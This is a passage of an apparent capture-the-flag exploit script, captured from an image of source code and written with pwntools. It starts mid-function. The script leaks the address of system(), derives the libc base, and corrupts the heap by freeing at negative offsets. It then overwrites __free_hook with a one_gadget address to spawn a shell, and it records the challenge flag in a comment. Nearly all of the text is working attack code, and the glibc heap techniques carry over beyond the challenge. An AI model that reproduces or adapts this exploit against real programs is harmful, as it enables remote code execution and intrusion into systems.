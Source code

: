 ```
  r.sendline(str(index))

def write(data):
  r.recvuntil("Your choice:")
  r.sendline('3')
  r.recvuntil("Read me in:")
  r.send(data)

def give_up():
  r.recvuntil("Your choice:")
  r.sendline('4')

def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def exploit():
  r.recvuntil("Here is system ")
  system_free=int(r.recvline(),16)
  log.info("System addr :0x{0:x}".format(system_free))
  libc_addr = system_free - 0x4f440
  log.info("Libc addr :0x{0:x}".format( libc_addr))
  free_hook = libc_addr + libcz.symbols['__free_hook']
  log.info("__free_hook addr :0x{0:x}".format( free_hook))
  malloc_hook = libc_addr + libcz.symbols['__malloc_hook']
  log.info("__malloc_hook addr :0x{0:x}".format( malloc_hook) )
  #fake_chunk = ( libc_addr + 0x3f1000 + 0x1f5428 + 0x8 ) #note error in remote.. we need ld_preload libc given
  fake_chunk = (libc_addr + 0x3f1000 + 0x225428 + 0x8 )
  log.info(" Fake chunk addr :0x{0:x}".format( fake_chunk) )
  one_gadget = libc_addr + 0x4f322

  if not   online:
    gdb.attach(r, '''
     set follow-fork-mode child
     b *(0x555555554000 + 0xb82)
     c
     ''')
  malloc(0x20) #7
  free( -0x260 + 0x10 ) #6
  malloc(0x250 - 0x8) #5
  write( "/bin/sh" + "\x00"*(0xc0-0x7) + p64(free_hook)) #4
  malloc(0x120 - 0x8) #3
  write(p64( one_gadget)) #2
  free( -0x260 + 0x10 ) #1
  # flag{don_t_you_wish_your_libc_was_non_vtabled_like_mine_29}
  r.interactive()
  return

#print('Press Ctrl+C')
exploit()
r.close()
```
